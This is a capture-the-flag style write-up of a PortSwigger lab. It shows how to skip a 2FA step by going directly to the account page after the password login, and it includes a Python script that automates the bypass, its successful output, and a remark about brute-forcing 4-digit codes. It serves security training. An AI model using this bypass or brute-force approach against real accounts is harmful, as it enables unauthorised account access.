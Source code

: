 This lab's two-factor authentication can be bypassed. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, access Carlos's account page.

- Your credentials: `wiener:peter`
- Victim's credentials `carlos:montoya`

---

**Goal:** Bypass 2FA and access Carlo's account page.

**Analysis:** From reading the previous information i can guess that i will be able to just click a page on the website after entering the password, but before entering the 2FA, and that will take me straight to the logged in pages, bypassing the 2FA completely. 

For practice, and since this is quite easy, i might as well make a python script utilizing the requests module. 

If you're exploring the app for the first time, go ahead and enter the provided credentials for wiener, then use the email client at the top of the page to get your 2FA, enter it, and now you will be logged in as wiener. 

After sending the 2FA you will get another login request in burp which you can explore with repeater. You will notice that it's only 4 digits which means we could easily bruteforce this with OWASPZap.

Now if we logout, and log in with the Carlos's credentials, we will try to skip the 2FA by dropping the second request (login2) instead of hitting forward, then going straight to the my-account page in the url. `https:web-server/my-account`

![[Pasted image 20240824083309.png]]

![[Pasted image 20240824083426.png]]

**Script:** 
- Make sure to remove `/` from the end of the web server url, or the exploit will not work.

```python
#!/usr/bin/python3

import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def access_carlos_account(s, url):

    # Log into Carlos's account
    print("(+) Logging into Carlos's account, and bypassing 2FA...")
    login_url = url + "/login"
    login_data = {"username": "carlos", "password": "montoya"}
    r = s.post(login_url, data=login_data, allow_redirects=False, verify=False, proxies=proxies)

    # Confirm bypass
    myaccount_url = url + "/my-account"
    r = s.get(myaccount_url, verify=False, proxies=proxies)
    if "Log out" in r.text:
        print("(+) Successfully bypassed 2FA verification.")
    else:
        print("(-) Exploit failed.")
        sys.exit(-1)

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    s = requests.Session()
    url = sys.argv[1]
    access_carlos_account(s, url)

if __name__ == "__main__":
    main()
```

```php
┌──(kali㉿kali)-[~/Documents/portswigger/auth/lab5]
└─$ python3 2fa.py https://0a4000d704899092809326ea00a6000a.web-security-academy.net 
(+) Logging into Carloss account, and bypassing 2FA...
(+) Successfully bypassed 2FA verification.
```



